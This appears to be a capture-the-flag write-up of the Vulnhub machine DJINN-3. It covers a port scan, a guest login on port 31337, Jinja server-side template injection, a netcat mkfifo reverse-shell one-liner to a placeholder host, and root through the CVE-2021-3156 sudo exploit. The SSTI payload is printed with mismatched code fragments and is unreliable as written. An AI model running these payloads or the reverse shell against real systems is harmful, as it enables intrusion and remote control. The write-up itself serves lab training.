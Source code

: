 ```yaml
---
title: DJINN 3
categories: [Proving Grounds, Play]
tags: [Public Exploit, SSTI, PrivEsc, sudo exploit, jinja]
image:
  path: /Vulnhub-Files/img/DJINN-3/167-3.png
  alt:  DJINN 3 Machine 🖥️
---
```


## **Description ⤵️**

>
**💡 [DJINN-3](https://www.vulnhub.com/entry/djinn-3,492/)**
<br>
- **Level:** Intermediate
- **flags**: root.txt
- **Description:** The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to read the root flag.
{: .prompt-info }

### Let’s find the IP Address first >>

![167-1.png](/Vulnhub-Files/img/DJINN-3/167-1.png)

```bash
IP : 10.0.2.20
```
{: .nolineno}

## Port Scan Results ➡️

![167-2.png](/Vulnhub-Files/img/DJINN-3/167-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
5000   HTTP
31337  Elite?
```
{: .nolineno}


## Web Enumeration ⤵️

![167-3.png](/Vulnhub-Files/img/DJINN-3/167-3.png)

![167-4.png](/Vulnhub-Files/img/DJINN-3/167-4.png)

So the port `31337` is for netcat connection → I guess the username & password as `guest:guest` and I got in →

![167-5.png](/Vulnhub-Files/img/DJINN-3/167-5.png)

Now lets check for `SSTI vulnerability` →

![167-6.png](/Vulnhub-Files/img/DJINN-3/167-6.png)

![167-7.png](/Vulnhub-Files/img/DJINN-3/167-7.png)

So I guess we have `SSTI vulnerability` so lets exploit →

Since my payload land into `jinja` catagory of `SSTI` so →

![167-8.png](/Vulnhub-Files/img/DJINN-3/167-8.png)

```
{: .nolineno}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls"));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
{: .nolineno}

![167-9.png](/Vulnhub-Files/img/DJINN-3/167-9.png)

So After using this payload I got response as →

![167-10.png](/Vulnhub-Files/img/DJINN-3/167-10.png)

So now lets have a reverse shell and I will be using this nc reverse shell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f` to do so →

![167-11.png](/Vulnhub-Files/img/DJINN-3/167-11.png)

![167-12.png](/Vulnhub-Files/img/DJINN-3/167-12.png)

___

## SHELL ➡️

![167-13.png](/Vulnhub-Files/img/DJINN-3/167-13.png)

Now I have used one exploit to counter this linux machine →

And this time I exploited the sudo version →

![167-14.png](/Vulnhub-Files/img/DJINN-3/167-14.png)

URL → [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

![167-15.png](/Vulnhub-Files/img/DJINN-3/167-15.png)

Now lets use the `exploit_nss.py` exploit →

![167-16.png](/Vulnhub-Files/img/DJINN-3/167-16.png)

![167-17.png](/Vulnhub-Files/img/DJINN-3/167-17.png)

___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }